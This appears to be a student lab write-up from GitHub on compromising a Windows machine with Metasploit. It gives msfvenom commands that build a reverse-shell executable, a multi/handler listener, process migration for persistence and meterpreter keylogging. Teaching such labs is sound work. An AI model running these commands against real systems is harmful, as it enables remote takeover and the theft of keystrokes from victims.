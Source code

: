 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
### ifconfig
192.168.91.247

![17468544633778439692885706617609](https://github.com/user-attachments/assets/eed51366-2711-4539-a1b6-e84c911ba491)


Find the attackers ip address using ifconfig

### msfvenom

![17468545029193622224694326026560](https://github.com/user-attachments/assets/d3ba4074-445e-4181-992d-b5d6fb3a4178)


Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### copy the fun.exe into apache/var/www/html/

![1746854524809634127741657855545](https://github.com/user-attachments/assets/e3c3c30e-0a73-4f8f-9b30-2a5a049ea2be)


copy fun.exe
start apache server
sudosystemctl apache2 start
check the status of apache2

### msfconsole

![17468545420401873368445533289212](https://github.com/user-attachments/assets/4aa034a1-9220-4ee4-bd4b-7a84f0fff900)


invoke msfconsole
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

### Multihander,setpayload,exploit



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Parrot machine:
http://192.168.91.247/

![17468545572841655893755062720176](https://github.com/user-attachments/assets/d5cc1ee8-4991-4f78-b37e-445d87e3ab39)


![17468545773186415034559621583518](https://github.com/user-attachments/assets/4790842e-d3e0-481c-902a-36ee7f1043d9)



![1746854588685630260214076310162](https://github.com/user-attachments/assets/76a4dcd3-544a-43ce-be8e-0ca1c35e66f6)

![17468546161766325289882751084416](https://github.com/user-attachments/assets/976bd098-e3ee-435b-9b89-e5b7307a348a)


![17468546311341758663156684109226](https://github.com/user-attachments/assets/0db8e2db-0d29-4a72-ba96-06adad6570ff)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![1746854648504609838641062503486](https://github.com/user-attachments/assets/4816d838-e1a1-43c6-904c-ea7a41e7950e)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![17468546680886740929719731315765](https://github.com/user-attachments/assets/4dab1bc8-6a3d-4c1f-8700-c97f4e8660ef)


### Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![17468546831583262470180280955869](https://github.com/user-attachments/assets/b63ebd37-57ae-4da7-b41c-1c1803945d6e)


![17468546961531773327238299030184](https://github.com/user-attachments/assets/a7a57d49-3778-4265-9baa-02af78f92377)


![17468547275534765771785791938073](https://github.com/user-attachments/assets/b6278b2f-0392-4872-a2ae-08b386e672c0)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
